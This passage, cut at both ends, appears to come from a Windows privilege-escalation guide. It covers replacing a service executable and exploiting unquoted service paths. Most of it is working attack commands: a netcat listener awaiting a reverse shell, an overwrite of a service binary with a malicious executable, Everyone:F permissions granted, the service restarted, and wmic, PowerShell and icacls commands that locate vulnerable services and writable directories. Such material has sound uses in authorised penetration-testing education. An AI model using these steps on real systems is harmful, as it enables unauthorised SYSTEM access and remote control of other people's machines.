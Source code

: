 2. Create a listener:
   ```bash
   nc -lvp 4445
   ```

3. Transfer the executable to Windows target (using wget, certutil, etc.)

4. Replace the service executable:
   ```cmd
   # Backup original (optional)
   move C:\path\to\service.exe C:\path\to\service.exe.bak
   
   # Copy malicious executable
   copy malicious.exe C:\path\to\service.exe
   
   # Ensure proper permissions
   icacls C:\path\to\service.exe /grant Everyone:F
   ```

5. Restart the service:
   ```cmd
   sc stop SERVICE_NAME
   sc start SERVICE_NAME
   ```

## Method 2: Unquoted Service Paths

When a service's path contains spaces and isn't enclosed in quotes, Windows will try to execute each valid path with spaces.

### Identifying Vulnerable Services

```cmd
# Find services with unquoted paths containing spaces
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# PowerShell alternative
Get-WmiObject -Class Win32_Service | Where-Object {$_.PathName -notmatch "`"" -and $_.PathName -match " "} | Select-Object Name, PathName, StartMode
```

### How It Works

For a service with path `C:\Program Files\Vulnerable Service\service.exe`, Windows tries to execute:
1. `C:\Program.exe`
2. `C:\Program Files\Vulnerable.exe`
3. `C:\Program Files\Vulnerable Service\service.exe`

### Exploitation Steps

1. Identify a writable directory in the service path:
   ```cmd
   # Check directory permissions
   icacls "C:\Program Files"
   icacls "C:\Program Files\Vulnerable Service"
   ```
